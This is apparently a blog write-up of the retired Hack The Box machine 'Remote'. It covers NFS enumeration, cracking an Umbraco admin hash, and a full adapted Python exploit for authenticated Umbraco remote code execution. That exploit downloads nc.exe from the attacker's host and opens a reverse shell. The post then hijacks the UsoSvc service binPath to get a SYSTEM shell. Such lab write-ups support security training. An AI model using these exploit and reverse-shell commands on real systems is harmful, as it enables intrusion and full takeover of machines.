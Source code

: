 ```yaml
---
title:  "Hack The Box - Remote"
date:   2020-03-21
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf, rdp, Remote-Desktop]
---
```

My write-up / walktrough for Remote on Hack The Box. 

## Quick summary
Recently, Remote got retired and I'm now allowed to publish my write-up.
I added the box to `/etc/hosts` as `remote.htb` with it's ip `10.10.10.180`

![infocard](/images/remote/infocard.png)

## Enumeration
As allways, I started with some enumeration and scanned `remote.htb` with `nmap -sTV -p 1-10000 -oN nmap_tcp_scan remote.htb`

![nmap](/images/remote/nmap.png)

I found a couple of open ports and services to poke around there. `ftp` seemed to be a dead end, but I was able to show and mount a `nfs-share` on port 2049

```shell
faebu@kali:showmount -e remote.htb
faebu@kali:mkdir /tmp/infosec
faebu@kali:sudo mount -t nfs remote.htb:/site_backups /tmp/infosec
```
By enumerating the content on `/tmp/infosec`, I realized that the share contained a backup of a webseite, run by the `Umbraco-CMS`. I was not able to load the database on `App_Data/Umbraco.sdf` with a tool, but I could grab a hash by inspecting the file manually with an editor.
`admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa`

## crack the hash
I tried to crack the hash online and found instantly a match. `b8be16afba8c314ad33d812f22a04991b90e2aaa -> baconandcheese`

![crackstation](/images/remote/crackstation.png)

## Exploitation
With this credentials, I was able to log in the cms.
![logincms](/images/remote/loginCMS.png)

Now, the next step was to lookout for a possibility to take advantage of the gathered credentials, so I checked if there are some `remote code execution vulnerabilities` with `Umbraco`. Indead, I found an interesting proof of concept on [www.exploit-db.com](https://www.exploit-db.com/exploits/46153), which I had to modify as follows:

```python
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators

# Dork: N/A

# Date: 2019-01-13

# Exploit Author: Gregory DRAPERI & Hugo BOUTINON, adapted by jaeflo

# Vendor Homepage: http://www.umbraco.com/

# Software Link: https://our.umbraco.com/download/releases

# Version: 7.12.4

# Category: Webapps

# Tested on: Windows IIS

# CVE: N/A
import requests;
from bs4 import BeautifulSoup;

def print_dict(dico):

    print(dico.items());

# Execute a reverse shell with nc
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.xx.xx:80/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.xx.xx 443 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";

password="baconandcheese";

host = "http://remote.htb";

# Step 1 - Get Main page

s = requests.session()

url_main =host+"/umbraco/";

r1 = s.get(url_main);

# Step 2 - Process Login

url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";

loginfo = {"username":login,"password":password};

r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page

url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";

r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');

VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];

VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];

UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];

headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};

data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack

r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
The exploit loads the file nc.exe to `remote.htb`, so I also had to start a local webserver on my machine and provide there the requested file.

Before executing the exploit, I had to start a local netcat-instance in listening mode. After executing the exploit, I got a revershell on my machine and was able to grab the user flag with it.

![reverseshell](/images/remote/reverseshell.png)

## Privilege Escalation
Now, I had to enumerate the system a bit further. I decided to upload winPEASany.exe to remote.htb. I did this by tweaking the exploit for the reverse shell so that it opened a powershell instead of cmd.exe.
```
/tmp/nc.exe 10.10.xx.xx 443 -e powershell.exe
```
and uploaded the exe afterwards with `iwr`.
![upload](/images/remote/winpeaUpload.png)

The tool found numerous misconfiguration and possible attack-vectors, but to me, the most promising part was, that the actual logged in user is able to modify the `Update Orchestrator Service`

![privesc](/images/remote/privesc.png)

there are many explenation found on the internet how to take advantage of this fact. I followed the steps which [hipotermia](https://hipotermia.pw/htb/querier) described on his walkthrough of the `HTB-Box Querier` to reconfigure `UsoSvc` to get a reverse shell as `System`. 

```bash
PS C:\tmp> sc.exe stop UsoSvc
PS C:\tmp> sc.exe config usosvc binPath="C:\tmp\nc.exe 10.10.xx.xx 6868 -e cmd.exe"
PS C:\tmp> sc.exe qc usoSvc
```
![usosvc](/images/remote/usosvc_conf.png)

## Root the box
Once I started the `Update Orchestrator Service` `(sc.exe start usosvc)`, I got a reverseshell as `System`

![rootshell](/images/remote/rootshell.png)

As the Service last just for a couple of seconds, we have to be quick to gather the flag ;-)

![rootflag](/images/remote/rootflag.png)

## Conclusion 
Great box and a lot of fun. I had a pretty hard time to get to user, got stuck plenty of times with loose ends, but once I got user-access, I got root pretty fast as well. Unfortunately, the box is called `Remote` and I noticed well the `Teamviewer-Service`, but to be honest, I had no clue how to proceed on it. So I would say, I got the root flag, but not the intended way :-/

**Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box.